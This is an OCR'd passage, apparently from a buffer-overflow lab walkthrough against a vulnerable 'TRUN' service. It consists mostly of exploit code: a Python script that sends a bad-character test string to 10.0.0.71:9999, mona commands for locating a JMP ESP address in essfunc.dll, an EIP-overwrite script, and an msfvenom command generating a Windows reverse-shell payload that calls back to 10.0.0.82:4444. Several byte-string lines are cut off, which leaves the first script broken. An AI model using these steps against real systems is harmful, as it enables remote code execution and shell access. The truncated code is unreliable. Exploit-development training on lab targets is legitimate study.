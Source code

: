 1 #!/usr/bin/python
2 import sys, socket
3
4 badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x
5 "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x
6 "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x
7 "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x
8 "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x
9 "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\x
10 "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\x
11 "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\x
12
13 shellcode = "A" * 2003 + "B" * 4 + badchars
14
15 try:
16 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
17 s.connect(('10.0.0.71',9999))
18 s.send(('TRUN /.:/' + shellcode))
19 s.close()
20
21 except:
22 print("Error connecting to server")
23 sys.exit()

5. Finding the JMP ESP Instruction Address
To Find JMP ESP :

jmp -r esp

Alternate Way :
!mona modules
!mona find -s "\xff\xe4" -m essfunc.dll

1 #!/usr/bin/python
2 # -*- coding: utf-8 -*-
3 import sys
4 import socket
5
6 shellcode = 'A' * 2003 + "\xaf\x11\x50\x62"
7
8 try:
9 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
10 s.connect(('10.0.0.71', 9999))
11 s.send('TRUN /.:/' + shellcode)
12 s.close()
13 except:
14
15 print('Error connecting to server')
16 sys.exit()

6. Exploit
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.82 LPORT=4444
EXITFUNC=thread -f py -a x86 -b "\x00"
